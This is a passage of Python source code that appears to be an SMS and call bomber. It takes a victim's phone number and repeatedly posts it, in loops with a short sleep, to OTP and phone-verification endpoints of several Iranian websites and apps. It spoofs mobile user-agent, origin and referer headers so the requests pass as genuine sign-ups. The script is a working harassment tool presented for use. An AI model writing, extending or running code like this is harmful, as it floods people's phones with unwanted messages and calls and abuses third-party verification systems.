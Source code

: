             "content-type": "application/x-www-form-urlencoded; charset\u003dUTF-8",
            "origin": "https://khedmatazma.com",
            "referer": "https://khedmatazma.com/mag/carpet-cleaning-app",
        }
        data = f"phone={phone}"
        req = requests.post("https://khedmatazma.com/users/sendOtp", headers = headers, data = data)
        print(req.text)
        headers= {
            "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36", 
            "content-type": "application/json;charset\u003dUTF-8",
            "origin": "https://app.namademan.ir",
            "referer": "https://app.namademan.ir/phone-number",
        }
        json = {"phone":"0"+phone}
        req = requests.post("https://app.namademan.ir/api/v1/login/send_otp", headers = headers, json= json)
        print(req.text)
        headers= {
            "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36", 
        "content-type": "application/json; charset\u003dutf-8",
        "origin": "https://mobile.3soot.ir",
        "referer": "https://mobile.3soot.ir/",
        }
        json = {"userName":"0"+phone}
        req = requests.post("https://api.3soot.ir/identity/v2/Customer/Login", headers = headers, json= json)

elif a == "2":
    print("example: 9xxxxxxxxx")
    phone = input("enter phone number: ")
    while True:
        headers = {
                "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36",
                "content-type": "application/json;charset\u003dUTF-8",
                "origin": "https://zhiva1.ir",
                "referer": "https://zhiva1.ir/",
        }
        json = {"phone":"0"+phone}
        req = requests.post("https://api.behtarino.com/api/v1/users/phone_verification/call/", headers = headers, json = json)
        print(req.text)

        time.sleep(10)

        headers = {
        "user-agent": "Mozilla/5.0 (Linux; Android 9; SM-G950F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.111 Mobile Safari/537.36",
        "content-type": "application/json;charset\u003dUTF-8",
        "origin": "https://logosfood.ir",
        "referer": "https://logosfood.ir/"
    }
        json = {"phone":"0"+phone}
        req = requests.post("https://api.behtarino.com/api/v1/users/phone_verification/call/", headers = headers, json=json)
        print(req.text)
